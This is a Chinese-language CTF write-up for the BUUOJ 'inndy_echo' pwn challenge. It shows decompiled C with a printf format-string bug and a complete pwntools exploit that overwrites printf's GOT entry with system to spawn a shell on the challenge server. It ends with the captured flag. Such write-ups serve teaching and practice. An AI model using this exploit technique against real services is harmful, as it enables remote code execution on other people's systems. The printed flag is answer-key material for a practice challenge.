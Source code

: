 # inndy_echo

[题目地址](https://buuoj.cn/challenges#inndy_echo)

借此机会好好学习一下[格式化字符串漏洞](https://ciphersaw.me/ctf-wiki/pwn/linux/fmtstr/fmtstr_exploit/)。

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[256]; // [esp+Ch] [ebp-10Ch] BYREF
  unsigned int v4; // [esp+10Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  do
  {
    fgets(s, 256, stdin);
    printf(s);
  }
  while ( strcmp(s, "exit\n") );
  system("echo Goodbye");
  exit(0);
}
```

程序内容仅此而已，有个很明显的格式化字符串漏洞。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

relro没开全，可以借此改got表。printf不错，参数可控且与system签名差不多。本来想pwntools一键生成的（老脚本小子了），结果发现用不了。我自己又不会写，长期依赖工具导致基本功完全没有。跑去看[wp](https://blog.csdn.net/Y_peak/article/details/115305977)，分析wp的同时恶补基本功。

```python
from pwn import *
p = remote("node4.buuoj.cn",25196)
offest = 7 #这是输入内容相对格式化字符串的偏移。比如输入AAAA,%7$p,程序回显AAAA,0x41414141
printf_got = 0x0804A010
sys = 0x08048400
#%hhn向某个地址写入单字节。%xc打印x个字符，用于强制让程序输出我们想要的字符数，进而写地址
payload = b"%19$hhn%4c%20$hhn%4c%21$hhn%124c%22$hhn" #%19对应下方的printf_got，%20对应下方的printf_got+2，以此类推。%19$hhn表示向%19的位置写入已输出字符数的字节
payload = payload.ljust(0x30, b'a') #做填充。0x30//4=12，加上基础的7偏移就是19，对应printf_got的偏移。这里填充只要保证最终payload是4的整数倍就好，比如b'%18$hhn%4c%19$hhn%4c%20$hhn%124c%21$hhnaaaaa\x10\xa0\x04\x08\x12\xa0\x04\x08\x13\xa0\x04\x08\x11\xa0\x04\x08'这个payload ljust填充44，然后整体偏移往前了一个，也可以
payload += p32(printf_got) + p32(printf_got+2) + p32(printf_got+3) + p32(printf_got+1)
#printf_got=0x10,printf_got+2=0x04,printf_got+3=0x08,printf_got+1=0xA0。利用hhn等改地址时要先写小的再写大的，因为hhn根据已输出的字符向指定地址写字节，先写大的后期小的就写不了了
print(payload)
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()
```

## Flag
> flag{fcb757ac-a97a-4c00-bd06-6be168a3c950}